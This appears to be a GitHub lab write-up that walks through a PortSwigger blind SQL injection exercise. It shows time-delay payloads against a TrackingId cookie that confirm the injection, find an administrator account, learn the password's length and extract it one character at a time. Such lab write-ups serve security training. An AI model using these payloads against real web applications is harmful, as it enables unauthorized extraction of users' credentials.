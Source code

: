 ![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/a69b3a7c-b465-404f-822d-6f33da76fb58)Hi hackers, Today we will play this [LAB](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-time-delays/sql-injection/blind/lab-time-delays-info-retrieval)


This our WEBSITE
![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/afadf641-fa00-4849-a8b4-31122c5fda8c)

Let's go to burp tool

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/3ebf9ed5-c532-4f62-8aa8-35e9dc56ac1a)

```TrackingId=``` is vulnerable parameter.

This lab base on time delays , so we try this payload :

```'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END--```

![ezgif-1-da1900c2ff](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/de71e58b-cf45-4a07-8fbd-55e8253601a4)

WOow we got it !

we need to check from username is administrator we use this payload:

```'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--```

![ezgif-1-0913de0f0e](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/0014dd86-7ce1-4a3a-8151-04c065a61b56)

Woow now we know username is administrator but don't know the password 

### Let's go to know this, in first we need know length of password we will use this payload:

```'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>10)+THEN+pg_sleep(2)+ELSE+pg_sleep(0)+END+FROM+users--```

![ezgif-1-2ee66f5ff7](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/4ef68bb6-502f-4d78-aec6-3744df1502ed)

Now We know that password of ```20 char```


### Ok great, Let's go to hack this password :) use this payload:

```'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(2)+ELSE+pg_sleep(0)+END+FROM+users--```

[Screencast from 2024-07-04 03:04:58 AM.webm](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/920e70f5-cac2-44d5-9f7b-d15101f1900d)

Good we will try again and again to discover 20 char

WOOW we can crack this password

















